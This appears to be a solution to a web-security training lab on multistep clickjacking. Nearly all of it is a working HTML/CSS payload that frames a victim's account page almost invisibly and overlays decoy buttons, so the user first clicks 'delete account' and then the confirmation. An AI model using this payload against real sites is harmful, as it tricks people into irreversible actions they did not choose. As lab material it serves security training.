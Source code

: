 # Lab: Multistep clickjacking

Position elements so that the user clicks delete account, then clicks the button that confirms the deletion.

```
<style>
	iframe {
		position:relative;
		width: 500px;
		height: 700px;
		opacity: 0.0001;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:500px;
		left:50px;
		z-index: 1;
	}
   .secondClick {
		top:295px;
		left:225px;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://acde1fc11fb423e8c0f4244e00aa003f.web-security-academy.net/my-account"></iframe>
```
